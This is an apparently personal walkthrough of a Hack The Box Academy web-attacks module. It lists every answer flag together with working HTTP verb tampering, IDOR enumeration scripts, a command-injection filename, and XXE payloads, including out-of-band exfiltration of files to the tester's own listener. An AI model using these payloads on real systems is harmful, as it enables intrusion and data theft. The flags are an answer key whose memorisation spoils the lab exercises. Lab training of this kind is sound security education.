

# [Web Attacks](https://academy.hackthebox.com/module/details/134)

## HTTP Verb Tampering - Bypassing Basic Authentication

### Questions

#### Question #01

**Question**

Try to use what you learned in this section to access the `reset.php` page and delete all files. Once all files are deleted, you should get the flag.


```shell
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-yfiorirsg2]─[~]
└──╼ [★]$ curl -I -X OPTIONS http://94.237.122.49:53321/admin/reset.php

HTTP/1.1 200 OK
Date: Thu, 05 Jun 2025 14:16:17 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
❌
```


**Answer**

```
HTB{4lw4y5_c0v3r_4ll_v3rb5}
```

## HTTP Verb Tampering - Bypassing Security Filters

### Questions

#### Question #02

**Question**

 To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: `file; cp /flag.txt ./`.


**Answer**

```
HTB{b3_v3rb_c0n51573n7}
```

## Insecure Direct Object References (IDOR) - Mass IDOR Enumeration

### Questions

#### Question #03

**Question**

Repeat what you learned in this section to get a list of documents of the first 20 user uid's in `/documents.php`, one of which should have a `.txt` file with the flag.


```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-jabigyux1u]─[~]
└──╼ [★]$ curl -s 'http://94.237.58.110:30846/documents.php' -X POST -d 'uid=1' | grep -oP '\/documents.*?.pdf'

/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

```shell
#!/bin/bash

url="http://94.237.58.110:30846/documents.php"

for i in {1..20}; do
        for link in $(curl -s "$url" -X POST -d "uid=$i" | grep -oP "flag.*?.txt"); do
                wget "$url/$link"
        done
done
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-jabigyux1u]─[~]
└──╼ [★]$ ./mass_idor_enumeration.sh 

[SNIP]

--2025-06-06 03:22:25--  http://94.237.58.110:30846/documents/flag_11dfa168ac8eb2958e38425728623c98.txt
Connecting to 94.237.58.110:30846... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24 [text/plain]
Saving to: ‘flag_11dfa168ac8eb2958e38425728623c98.txt’

flag_11dfa168ac8eb2958e38425728623c98 100%[========================================================================>]      24  --.-KB/s    in 0s

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-jabigyux1u]─[~]
└──╼ [★]$ cat flag_11dfa168ac8eb2958e38425728623c98.txt

HTB{4ll_f1l35_4r3_m1n3}
```

**Answer**

```
HTB{4ll_f1l35_4r3_m1n3}
```

## Insecure Direct Object References (IDOR) - Bypass Encoded References

### Questions

#### Question #04

**Question**

Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with `cat`. You can either calculate the `contract` parameter value, or calculate the `.pdf` file name directly.


```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-hdrk5sgqcr]─[~]
└──╼ [★]$ url="http://94.237.49.226:57795/download.php"; id=$(echo -n 1 | base64 -w 0); curl -s -I "$url?contract=$id" | grep -oP "contract_.*?\.pdf"

contract_c4ca4238a0b923820dcc509a6f75849b.pdf

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-hdrk5sgqcr]─[~]
└──╼ [★]$ echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b  -
```

```shell
#!/bin/bash

url="http://94.237.49.226:59295/download.php"

for i in {1..20}; do
	    encoded_id=$(echo -n $i | base64 -w 0)
	    curl "$url?contract=$encoded_id"
done
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-hdrk5sgqcr]─[~]
└──╼ [★]$ ./bypass_encoded_references.sh

HTB{h45h1n6_1d5_w0n7_570p_m3}
```

**Answer**

```
HTB{h45h1n6_1d5_w0n7_570p_m3}
```

## Insecure Direct Object References (IDOR) - IDOR in Insecure APIs

### Questions

#### Question #05

**Question**

Try to read the details of the user with `uid=5`. What is their `uuid` value?


**Answer**

```
eb4fe264c10eb7a528b047aa983a4829
```

## Insecure Direct Object References (IDOR) - Chaining IDOR Vulnerabilities

### Questions

#### Question #06

**Question**

 Try to change the admin's email to `flag@idor.htb`, and you should get the flag on the 'Edit Profile' page.


```shell
#!/bin/bash

url="http://83.136.253.105:59347/profile/api.php/profile"

for i in {1..10}; do
		echo -ne "$i\t"
		curl -s "$url/$i" | grep -oP "\"role\":\".*?\""
done
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ze3vtx4chf]─[~]
└──╼ [★]$ ./script.sh 

1	"role":"employee"
2	"role":"employee"
3	"role":"employee"
4	"role":"employee"
5	"role":"employee"
6	"role":"employee"
7	"role":"employee"
8	"role":"employee"
9	"role":"employee"
10	"role":"staff_admin"

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ze3vtx4chf]─[~]
└──╼ [★]$ url="http://83.136.253.105:59347/profile/api.php/profile"; curl -s "$url/10" | jq

{
  "uid": "10",
  "uuid": "bfd92386a1b48076792e68b596846499",
  "role": "staff_admin",
  "full_name": "admin",
  "email": "admin@employees.htb",
  "about": "Never gonna give you up, Never gonna let you down"
}
```


**Answer**

```
HTB{1_4m_4n_1d0r_m4573r}
```

## XML External Entity (XXE) Injection - Local File Disclosure

### Questions

#### Question #07

**Question**

Try to read the content of the `connection.php` file, and submit the value of the `api_key` as the answer.


```xml
<!DOCTYPE email [
<!ENTITY payload "XXE TEST">
]>

[SNIP]

<email>
	&payload;
</email>
```


```xml
<!DOCTYPE email [
<!ENTITY payload SYSTEM "file:///etc/passwd">
]>

[SNIP]

<email>
	&payload;
</email>
```


```xml
<!DOCTYPE email [
<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>

[SNIP]

<email>
	&payload;
</email>
```


```xml
<!DOCTYPE email [
<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>

[SNIP]

<email>
	&payload;
</email>
```


**Answer**

```
UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg
```

## XML External Entity (XXE) Injection - Advanced File Disclosure

### Questions

#### Question #08

**Question**

Use either method from this section to read the flag at `/flag.php`. (You may use the CDATA method at `/index.php`, or the error-based method at `/error`).



```xml
<!ENTITY joined "%begin;%file;%end;">
```

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
```

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.155  netmask 255.255.254.0  destination 10.10.15.155

[SNIP]

┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

[CONTINUE]
```

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///flag.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://10.10.15.155:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>

[SNIP]

<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->

[SNIP]
```


```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ vim error_xxe.dtd

<!ENTITY % file SYSTEM "file://flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

[CONTINUE]
```

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.155:8000/error_xxe.dtd">
  %remote;
  %error;
]>

[SNIP]

<email>&error;</email>

[SNIP]
```


**Answer**

```
HTB{3rr0r5_c4n_l34k_d474}
```

## XML External Entity (XXE) Injection - Blind Data Exfiltration

### Questions

#### Question #09

**Question**

Using Blind Data Exfiltration on the `/blind` page to read the content of `/327a6c4304ad5938eaf0efb6cc3e53dc.php` and get the flag.

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ vim xxe.dtd

<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.15.155:8000/?content=%file;'>">
```

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ vim index.php

<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.155  netmask 255.255.254.0  destination 10.10.15.155

[SNIP]

┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ php -S 0.0.0.0:8000

[Wed Jun 11 05:47:18 2025] PHP 8.2.26 Development Server (http://0.0.0.0:8000) started

[CONTINUE]
```

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.155:8000/xxe.dtd">
  %remote;
  %oob;
]>

[SNIP]

<email>&content;</email>

[SNIP]
```


```
[CONTINUE]

[Wed Jun 11 05:49:44 2025] 10.129.234.170:58414 Accepted
[Wed Jun 11 05:49:44 2025] 

<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>

[Wed Jun 11 05:49:44 2025] 10.129.234.170:58414 [200]: GET /?content=PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K
[Wed Jun 11 05:49:44 2025] 10.129.234.170:58414 Closing
```

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ echo 'PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K' | base64 -d

<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
```

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ vim XXEinjector/xxe.req

POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.234.170
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.234.170/
Content-Type: text/plain;charset=UTF-8
Content-Length: 261
Origin: http://10.129.234.170
DNT: 1
Connection: keep-alive
Sec-GPC: 1
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~/XXEinjector]
└──╼ [★]$ ruby XXEinjector.rb --host=10.10.15.155 --httpport=8000 --file=xxe.req --path=/327a6c4304ad5938eaf0efb6cc3e53dc.php --oob=http --phpfilter

[SNIP]

[+] Sending request with malicious XML.
[+] Responding with XML for: /327a6c4304ad5938eaf0efb6cc3e53dc.php
[+] Retrieved data:

┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~/XXEinjector]
└──╼ [★]$ cat Logs/10.129.234.170/327a6c4304ad5938eaf0efb6cc3e53dc.php.log 

<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
```

**Answer**

```
HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}
```

---

## Skills Assessment

You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.

### Questions

#### Question #01

**Question**

Try to escalate your privileges and exploit different vulnerabilities to read the flag at `/flag.php`.


```shell
#!/bin/bash

url="http://94.237.57.135:36794/api.php/user"

for i in {1..100}; do
		curl -s "$url/$i" | grep -i "admin"
done
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ze3vtx4chf]─[~]
└──╼ [★]$ ./enumerate_admin.sh

{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ze3vtx4chf]─[~]
└──╼ [★]$ curl http://94.237.57.135:36794/api.php/token/52

{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ze3vtx4chf]─[~]
└──╼ [★]$ curl http://94.237.57.135:36794/reset.php -d 'uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=Test123'

Access Denied ❌
```


```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ze3vtx4chf]─[~]
└──╼ [★]$ echo -n 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' | base64 -d

<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```

**Answer**

```
HTB{m4573r_w3b_4774ck3r}
```

---
---
